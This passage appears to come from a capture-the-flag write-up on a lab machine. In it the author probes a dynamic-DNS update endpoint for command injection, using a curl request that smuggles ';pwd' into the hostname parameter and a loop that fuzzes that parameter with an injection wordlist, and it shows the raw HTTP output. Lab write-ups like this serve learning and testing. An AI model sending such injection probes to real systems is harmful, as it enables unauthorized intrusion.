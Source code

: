 Playing a little with the API started receiving some **wrngdom** errors when some of the supported domains are not present, like below:

```bash
$ curl -i -s -k -H $'Authorization: Basic ZHluYWRuczpzbmRhbnlk' "http://10.10.10.244/nic/update?myip=10.10.10.10&hostname=;pwd" -v
*   Trying 10.10.10.244:80...
* Connected to 10.10.10.244 (10.10.10.244) port 80 (#0)
> GET /nic/update?myip=10.10.10.10&hostname=;pwd HTTP/1.1
> Host: 10.10.10.244
> User-Agent: curl/7.74.0
> Accept: */*
> Authorization: Basic ZHluYWRuczpzbmRhbnlk
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< Date: Fri, 13 Aug 2021 21:38:23 GMT
Date: Fri, 13 Aug 2021 21:38:23 GMT
< Server: Apache/2.4.41 (Ubuntu)
Server: Apache/2.4.41 (Ubuntu)
< Content-Length: 16
Content-Length: 16
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8

<
911 [wrngdom: ]
* Connection #0 to host 10.10.10.244 left intact
```

So, to check for injections started to fuzz using a simple `while` loop for contents of wordlist `/usr/share/wordlists/wfuzz/Injections/All_attack.txt`, until getting the error below:

```bash
$ while read p; do
while> curl -i -s -k -H $'Authorization: Basic ZHluYWRuczpzbmRhbnlk' "http://10.10.10.244/nic/update?myip=10.10.10.10&hostname==$p.no-ip.htb" -v
while> done < /usr/share/wordlists/wfuzz/Injections/All_attack.txt

[...]
* Connection #0 to host 10.10.10.244 left intact
*   Trying 10.10.10.244:80...
* Connected to 10.10.10.244 (10.10.10.244) port 80 (#0)
> GET /nic/update?myip=10.10.10.10&hostname=-1.no-ip.htb HTTP/1.1
> Host: 10.10.10.244
> User-Agent: curl/7.74.0
> Accept: */*
> Authorization: Basic ZHluYWRuczpzbmRhbnlk
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
HTTP/1.1 200 OK
< Date: Fri, 13 Aug 2021 21:30:11 GMT
Date: Fri, 13 Aug 2021 21:30:11 GMT
< Server: Apache/2.4.41 (Ubuntu)
Server: Apache/2.4.41 (Ubuntu)
< Content-Length: 22
Content-Length: 22
< Content-Type: text/html; charset=UTF-8
Content-Type: text/html; charset=UTF-8

<
911 [nsupdate failed]
```
